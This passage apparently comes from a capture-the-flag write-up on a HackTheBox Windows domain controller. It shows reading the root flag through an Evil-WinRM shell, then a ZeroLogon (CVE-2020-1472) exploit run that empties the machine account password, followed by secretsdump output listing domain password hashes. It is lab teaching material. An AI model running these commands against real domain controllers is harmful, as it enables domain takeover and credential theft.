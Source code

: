       Options : *.* /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

    ------------------------------------------------------------------------------

                               2    C:\users\administrator\desktop\
                New File                 488        desktop.ini
      0%
    100%
                New File                  34        root.txt
      0%
    100%

    ------------------------------------------------------------------------------

                   Total    Copied   Skipped  Mismatch    FAILED    Extras
        Dirs :         1         0         1         0         0         0
       Files :         2         2         0         0         0         0
       Bytes :       522       522         0         0         0         0
       Times :   0:00:00   0:00:00                       0:00:00   0:00:00
       Ended : Wednesday, April 1, 2020 12:48:19 PM

    *Evil-WinRM* PS C:\programdata\temp> dir


        Directory: C:\programdata\temp


    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -ar---         4/1/2020   2:36 AM             34 root.txt



Now that it's there, I can read the flag:



    *Evil-WinRM* PS C:\programdata\temp> type root.txt
    b292dfe5************************



### ZeroLogon

I dropped a [quick
post](/zerologon-owning-htb-machines-with-cve-2020-1472.md)
earlier this week on CVE-2020-1472. I could have run this without doing
anything else on the box, and it works here too:



    (venv) root@kali# python /opt/CVE-2020-1472/cve-2020-1472-exploit.py MULTIMASTER 10.10.10.179
    Performing authentication attempts...
    ======================
    Target vulnerable, changing account password to empty string                                    

    Result: 0

    Exploit complete!

    (venv) root@kali# secretsdump.py -no-pass -just-dc MULTIMASTER\$@10.10.10.179
    Impacket v0.9.22.dev1+20200915.115225.78e8c8e4 - Copyright 2020 SecureAuth Corporation
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                               
    [*] Using the DRSUAPI method to get NTDS.DIT secrets                                                                 
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:69cbf4a9b7415c9e1caf93d51d971be0:::         
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                              
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:06e3ae564999dbad74e576cdf0f717d3:::
    DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    MEGACORP.LOCAL\svc-nas:1103:aad3b435b51404eeaad3b435b51404ee:fe90dcf97ce6511a65151881708d6027:::
    ...[snip]...
